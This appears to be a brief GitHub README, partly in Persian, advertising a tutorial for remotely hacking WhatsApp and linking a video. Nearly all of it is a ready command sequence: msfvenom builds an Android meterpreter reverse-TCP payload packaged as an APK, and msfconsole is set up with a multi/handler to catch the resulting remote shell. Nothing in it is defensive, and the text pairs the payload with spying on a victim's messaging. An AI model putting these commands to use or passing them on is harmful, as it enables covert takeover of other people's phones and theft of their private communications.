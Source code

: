 # hack-cod-whatsapp-Termux-
آموزش  هک واتچاپ  از  دور
فیلم  آموزش 
https://youtu.be/SnnPQzZyQKU

ifconfig
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.78.129 LPORT=4444 R > Hack2.apk

msfconsole

use exploit/multi/handler

set payload android/meterpreter/reverse_tcp

set LHOST

set LPORT

exploit
